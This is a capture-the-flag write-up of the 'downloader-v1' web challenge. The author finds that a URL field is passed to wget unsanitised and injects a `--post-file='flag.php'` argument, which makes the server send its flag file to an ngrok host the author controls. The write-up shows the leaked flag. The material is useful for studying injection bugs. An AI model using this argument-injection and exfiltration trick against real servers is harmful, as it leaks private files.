


# downloader-v1

Description:
```
Don't you find it frustrating when you have uploaded some files on a website but you're are not sure if the download button works? Me neither. But some people did. Is there even demand for such a service?
```

We get access to the following page.



I'll start a http server and use ngrok so that the target can access it.

We can then try to get an image from my webserver.



We can see what commands are being executed. If our input is not sanitized, we can try to add the "--post-file" flag to wget.

```bash
https://578f-81-18-84-129.ngrok-free.app/img.png --post-file='flag.php'
```

Result:
```
Body:
GET ME!
<?php /* DCTF{6789af26f90396678909a99bf46ba3a78b2f1b349fb... */ ?>
```